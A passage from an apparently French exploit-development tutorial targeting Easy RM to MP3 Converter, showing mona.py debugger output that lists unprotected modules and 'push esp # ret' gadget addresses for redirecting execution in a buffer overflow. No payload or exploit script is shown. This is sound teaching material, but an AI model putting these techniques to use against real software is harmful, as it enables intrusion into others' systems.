 ``` text
0BADF00D    0x00650000 | 0x0066e000 | 0x0001e000 | True   | False   | False |  False   | False  | 1.0.1.8 [wmatimer.dll] (C:\Program Files\Easy RM to MP3 Converter\wmatimer.dll)
0BADF00D    0x75e40000 | 0x75e75000 | 0x00035000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [WS2_32.dll] (C:\Windows\system32\WS2_32.dll)
0BADF00D    0x77820000 | 0x77826000 | 0x00006000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [NSI.dll] (C:\Windows\system32\NSI.dll)
0BADF00D    0x70900000 | 0x70912000 | 0x00012000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [pnrpnsp.dll] (C:\Windows\system32\pnrpnsp.dll)
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.412000
           [15:20:48] Thread 000006E4 terminated, exit code 0
```

Les seuls modules disponibles sans protection sont **MSRMfilter03.dll** et **RM2MP3Converter.exe**. Cependant les adresses de ce dernier contiennent le caractère nul (\\x00) et ne sont pas utilisables.

Il est également possible d'utiliser mona pour trouver directement des séquences permettant de jmp esp:

``` text
0BADF00D   [+] This mona.py action took 0:00:02.894000
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp -o

           ---------- Mona command started on 2016-04-18 12:24:59 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Ignoring OS modules
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 2 modules
0BADF00D       - Querying module RM2MP3Converter.exe
0BADF00D       - Querying module MSRMfilter03.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'push esp # ret 0x08' : 1
0BADF00D       - Number of pointers of type 'push esp # ret ' : 4
0BADF00D   [+] Results :
004351F6     0x004351f6 : push esp # ret 0x08 | startnull {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
0041CFE8     0x0041cfe8 : push esp # ret  | startnull {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
0043754C     0x0043754c : push esp # ret  | startnull,asciiprint,ascii,alphanum {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
0043AE68     0x0043ae68 : push esp # ret  | startnull {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
1001B058     0x1001b058 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSRMfilter03.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll)
0BADF00D       Found a total of 5 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:02.314000
           [12:25:33] Thread 0000054C terminated, exit code 0
```